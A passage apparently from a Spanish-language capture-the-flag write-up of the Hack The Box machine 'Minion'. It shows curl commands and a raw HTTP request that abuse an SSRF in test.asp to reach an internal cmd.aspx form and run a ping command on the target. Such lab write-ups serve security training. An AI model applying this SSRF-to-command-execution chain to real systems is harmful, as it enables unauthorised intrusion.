 Al ```test.asp``` hay que pasarle un parámetro

```null
curl -s -X GET http://10.10.10.57:62696/test.asp
Missing Parameter Url [u] in GET request!
```

Es vulnerable a SSRF

```null
curl -s -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80'
<html>
<body>
<center>
<h1>Site Administration</h1>
<table border=1>
<tr><td><a href="">Edit Configuration</a>
<tr><td><a href="">Start/Stop Instance</a>
<tr><td><a href="">View Summary</a>
<tr><td><a href="">View Logs</a>
<tr><td><a href="http://127.0.0.1/cmd.aspx">system commands</a>
</table>
</body>
</html>
```

Tengo acceso a un formulario para ejecutar comandos

<img src="/writeups/assets/img/Minion-htb/2.png" alt="">

Como estoy abusando del SSRF, no es tan sencillo como enviar los datos directamente, ya que me redirigiría a la página web del puerto 62696. Pero puedo cambiar el método de POST a GET

```null
GET /test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=ping+-n+1+10.10.16.2 HTTP/1.1
Host: 10.10.10.57:62696
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.57:62696
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ASPSESSIONIDACQATCSS=KKEFGNDAILAGBCHAIPEDLOFN
Connection: close
```
